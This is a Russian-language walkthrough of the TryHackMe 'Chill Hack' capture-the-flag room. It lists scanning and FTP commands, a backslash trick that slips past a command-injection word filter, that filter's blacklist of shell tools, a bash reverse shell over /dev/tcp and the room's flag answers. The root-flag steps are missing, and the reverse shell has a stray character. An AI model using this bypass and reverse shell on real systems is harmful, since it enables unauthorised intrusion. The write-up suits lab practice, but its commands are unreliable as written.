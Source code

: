 [>> вернуться на главную страницу](https://github.com/BEPb/tryhackme/blob/master/README.md)

# Комната [Chill Hack](https://tryhackme.com/r/room/chillhack) 

Всего 1 заданиe:
## Задание 1
Охладите хак машины.

Легкий уровень CTF. Захватывайте флаги и получайте удовольствие!
Вы начинаете с поиска уязвимости инъекции команд на веб-сервере и эксплуатируете уязвимость, чтобы получить оболочку 
на коробке. Затем вам нужно эксплуатировать скрипт bash и повысить свои привилегии до пользователя с именем apaar, а 
затем вы можете сбросить ключ SSH, а затем воспользоваться SSH для переадресации портов на порт, работающий на 
локальном хосте. Веб-сайт, на котором вы сделали переадресацию портов, уязвим для инъекции SQL, и вы можете 
использовать это, чтобы обойти аутентификацию, а затем получить доступ к аутентифицированному контенту. После входа 
в систему вы найдете подсказку, которая заставляет вас подозревать стенографию. Скопируйте изображение на свой ящик, 
выполните анализ стего и получите резервный zip-файл. zip-файл зашифрован с помощью пароля. Вы генерируете хэш с 
помощью zip2john и кряка с john the ripper и получаете пароль для zip-файла. Извлеките zip-файл и вы найдете 
исходный код PHP, который содержит некоторые учетные данные для другого пользователя. Повысьте свои привилегии до 
этого пользователя и обнаружите, что он в группе docker, сделайте немного магии GTFOBins и получите root shell на 
коробке, это действительно забавная коробка без особых слов, давайте перейдем к делу
### Ответьте на вопросы ниже
Пользовательский флаг
```commandline
nmap -sC -sV 10.10.51.62
ftp 10.10.51.62
# anonymous
ls -la
get note.txt -
cat note.txt
# Anurodh and Apaar
```
Возвращаясь к моему сканированию Gobuster, я обнаружил несколько каталогов, и один из них был интересным `http://10.10.51.62/secret/`.
Я решил заглянуть в каталог и обнаружил, что там есть файл index.php, который может выполнять команды.
```commandline
gobuster dir -u http://10.10.51.62 -x txt,php,tar,zip -w /usr/share/wordlists/dirb/common.txt
# http://10.10.51.62/secret/
```
Я решил начать с простого и просто выполнить `ls`, чтобы получить список каталогов. Но когда я выполнил команду, я 
получил сообщение об ошибке. Я подумал, что это может быть страница троллей, не имеющая реальной функции, но чтобы 
подтвердить свои подозрения, я попробовал другую команду `ifconfig`. И команда выполнилась просто отлично. Потом я 
вспомнил, что в команде была фильтрация по некоторым словам. Самый простой способ, которым я всегда пытаюсь обойти 
любую фильтрацию при инъекции команды, — это использовать обратные косые черты. Если я не экранирую специальные 
символы, то слово будет интерпретироваться bash одинаково. Итак, я попробовал снова выполнить ls, но в этом случае 
я добавил обратную связь между l и s. Далее я решил взглянуть на PHP-файл, в котором выполняются команды, и 
посмотреть, какие еще слова были занесены в черный список скриптом с помощью приведенной ниже команды. 
```commandline
ls
ifconfig
l\s -la
c\at index.php
```
И глядя на источник, мы видим еще несколько слов, которые фильтруются скриптом, включая
```commandline
nc, python, bash, php, perl, rm, cat, head, tail, python3, more, less, sh, ls
```
Эти слова в основном используются для получения обратных оболочек на любой системе. Но теперь у нас есть способ 
обойти эти ограничения. Теперь давайте получим оболочку. 
Я создал обратную оболочку bash
```commandline
bash -c "bash -i >& /dev/tcp/10.10.51.62/9001 0>&1"$
```
```commandline
{USER-FLAG: e8vpd3323cfvlp0qpxxx9qtr5iq37oww}
```
Корневой флаг


```commandline
{ROOT-FLAG: w18gfpn9xehsgd3tovhk0hby4gdp89bg}
```


[>> вернуться на главную страницу](https://github.com/BEPb/tryhackme/blob/master/README.md)